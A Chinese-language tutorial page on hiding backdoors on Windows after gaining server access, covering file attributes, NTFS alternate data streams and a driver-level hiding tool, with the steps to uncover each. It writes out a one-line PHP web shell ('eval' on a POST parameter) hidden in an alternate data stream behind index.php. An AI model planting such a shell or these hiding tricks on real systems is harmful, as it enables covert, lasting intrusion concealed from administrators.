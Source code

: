 ## 第1篇：Windows权限维持--隐藏篇

### 0x00 前言

攻击者在获取服务器权限后，通常会用一些后门来维持权限，如果你想让你的后门保持的更久些，那么请隐藏好它，使之不易被管理员发现。

### 0x01 隐藏文件

**1、利用文件属性**

最简单的一种隐藏文件的方式，文件右键属性，勾选隐藏，点击确定后，在这个文件里看不到刚刚的文件了。

![img](https://bypass007.github.io/Emergency-Response-Notes/privilege/image/privilege-1-1.png)

如果要让文件显示出来，就点击查看，勾选显示隐藏的文件，文件就显示出来。

![img](https://bypass007.github.io/Emergency-Response-Notes/privilege/image/privilege-1-2.png)

如何真正隐藏文件？

使用Attrib +s +a +h +r命令就是把原本的文件夹增加了系统文件属性、存档文件属性、只读文件属性和隐藏文件属性。

`attrib +s +a +h +r D:\test\project\test`.txt

这样就做到了真正的隐藏，不管你是否显示隐藏文件，此文件夹都看不见。

破解隐藏文件：

打开电脑文件夹选项卡，取消”隐藏受保护的操作系统文件“勾选，把”隐藏文件和文件夹“下面的单选选择“显示隐藏的文件、文件夹和驱动器”。

![img](https://bypass007.github.io/Emergency-Response-Notes/privilege/image/privilege-1-3.png)

**2、利用ADS隐藏文件内容**

 在服务器上echo一个数据流文件进去，比如index.php是网页正常文件，我们可以这样子搞： 　

```
echo ^<?php @eval($_POST['chopper']);?^> > index.php:hidden.jpg
```

这样子就生成了一个不可见的shell hidden.jpg，常规的文件管理器、type命令，dir命令、del命令发现都找不出那个hidden.jpg的。　

```
问题1：如何查看index.php:hidden.jpg内容呢？

　　    进入文件所在目录，notepad index.php:hidden.jpg    或者 dir /r
　　    
问题2：如何删除index.php:hidden.jpg？

     直接删除index.php即可
```

**3、驱动级文件隐藏**

驱动隐藏我们可以用过一些软件来实现，软件名字叫：Easy File Locker

下载链接： http://www.xoslab.com/efl.html

